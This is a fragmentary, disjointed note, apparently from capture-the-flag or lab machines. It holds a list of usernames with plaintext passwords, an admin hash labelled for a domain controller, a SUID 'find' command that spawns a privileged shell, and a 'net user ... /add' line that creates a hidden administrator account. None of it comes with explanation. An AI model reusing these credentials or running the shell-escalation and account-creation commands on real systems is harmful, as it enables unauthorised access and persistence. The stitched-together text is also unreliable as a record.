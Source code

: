James : Toyota
balthazar : TheJoker12345!

```
find . -exec /bin/sh -p \; -quit
```

STARS5678FORTUNE401 69F15HST1CX
frank : TractorHeadtorchDeskmat
margaret : Welcome1!2@3#
admin : Password6543
admin : admin
ben : Welcometomyblog
egre55 : egre55
jbercov : myspace7

dc02 admin 4c827b7074e99eefd49d05872185f7f8
net user Admin_129834765 SamsungOctober102030 /add

julian : manchesterunited
julian : TerrorInflictPurpleDirt996655 by James

'dharding' 'WestminsterOrange5'